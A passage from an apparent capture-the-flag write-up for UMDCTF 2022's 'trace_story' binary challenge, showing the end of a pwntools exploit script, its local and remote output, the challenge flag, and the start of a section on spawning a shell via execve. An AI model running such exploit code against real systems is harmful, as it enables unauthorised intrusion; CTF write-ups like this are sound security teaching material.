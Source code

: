 ```python
log.info('child pid: {x}'.format(x = pid))
if not args.REMOTE:
    open('ppid','w').write(str(p.pid))
    open('pid','w').write(str(pid))

p.sendlineafter(b'Input: \n', payload)
flag = p.recvuntil(b'}').decode()
p.close()
if 's' in locals(): s.close()
print(flag)
```

And finally, get the flag.  The `if not args...` block is just for my local testing.  The rest should be obvious.


Output (local):

```bash
# ./exploit.py
[+] Starting local process '/pwd/datajerk/umdctf2022/trace_story/trace_story': pid 28053
[*] child pid: 28054
[*] Stopped process '/pwd/datajerk/umdctf2022/trace_story/trace_story' (pid 28053)
flag{flag}

# ./exploit.py
[+] Starting local process '/pwd/datajerk/umdctf2022/trace_story/trace_story': pid 28078
[*] child pid: 28079
[*] Stopped process '/pwd/datajerk/umdctf2022/trace_story/trace_story' (pid 28078)
flag{flag}
```

Above, locally odd or even PID works just fine.

Output (remote):

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 0.cloud.chals.io on port 15148: Done
[+] Opening connection to 0.cloud.chals.io on port 15148: Done
[*] PID 1423 is not even, starting over...
[*] Closed connection to 0.cloud.chals.io port 15148
[+] Opening connection to 0.cloud.chals.io on port 15148: Done
[*] child pid: 1426
[*] Closed connection to 0.cloud.chals.io port 15148
[*] Closed connection to 0.cloud.chals.io port 15148
UMDCTF{Tr4C3_Thr0Ugh_3v3rYth1NG}
```

Retrying until even PID.


### Shell Version

Patch is changed to get a shell using `execve`:
